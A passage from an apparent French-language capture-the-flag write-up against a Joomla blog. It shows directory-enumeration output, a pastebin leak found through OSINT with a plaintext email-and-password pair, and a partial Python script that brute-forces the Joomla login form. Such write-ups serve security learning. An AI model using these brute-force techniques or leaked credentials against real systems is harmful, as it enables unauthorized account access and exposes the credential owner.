 ```plain
Found webpage http://10.1.1.23:10000/blog/media/com_content/
Found webpage http://10.1.1.23:10000/blog/media/com_contact/
Found webpage http://10.1.1.23:10000/blog/media/editors/
Found webpage http://10.1.1.23:10000/blog/media/com_wrapper/
Found webpage http://10.1.1.23:10000/blog/media/com_menus/
Found webpage http://10.1.1.23:10000/blog/media/mailto/
Found webpage http://10.1.1.23:10000/blog/media/com_modules/
Found webpage http://10.1.1.23:10000/blog/media/cms/
Found webpage http://10.1.1.23:10000/blog/media/contacts/
Found webpage http://10.1.1.23:10000/blog/administrator/index.php
Found webpage http://10.1.1.23:10000/blog/administrator/templates/
Found webpage http://10.1.1.23:10000/blog/administrator/includes/
Found webpage http://10.1.1.23:10000/blog/administrator/language/
Found webpage http://10.1.1.23:10000/blog/administrator/modules/
Found webpage http://10.1.1.23:10000/blog/administrator/cache/
Found webpage http://10.1.1.23:10000/blog/administrator/logs/
Found webpage http://10.1.1.23:10000/blog/administrator/help/
Found webpage http://10.1.1.23:10000/blog/administrator/components/
```

La seule chose qui ressort c'est ce fichier */administrator/logs/error.php* mais l'attaquer avec *sqlmap* ou tenter de brute-forcer des noms de paramètres avec *Patator* n'ont mené là encore nul part.  

It's all about OSINT you fool!
------------------------------

Si on recherche l'adresse email remontée par Nmap via Google on trouve [ce leak](https://pastebin.pl/view/f1b64ad3) avec les creds suivants :  

```plain
hometowncebu@gmail.com:cabergas08
```

J'ai écrit mon propre script de brute-force pour Joomla :  

```python
import sys

import requests
from requests.exceptions import RequestException
from bs4 import BeautifulSoup

userfile = sys.argv[1]
passfile = sys.argv[2]

sess = requests.session()

with open(passfile, errors="ignore") as fdpass:
    for password in fdpass:
        password = password.strip()
        print("Testing password", password)

        with open(userfile, errors="ignore") as fduser:
            for username in fduser:
                username = username.strip()

                fields = {}
                response = sess.get("http://10.1.1.23:10000/blog/index.php/author-login")
                soup = BeautifulSoup(response.text, "lxml")
                form = soup.find("form", action="/blog/index.php/author-login?task=user.login")

                for field in form.find_all("input", attrs={"name": True}):
                    fields[field["name"]] = field.get("value", "")

                fields["username"] = username
```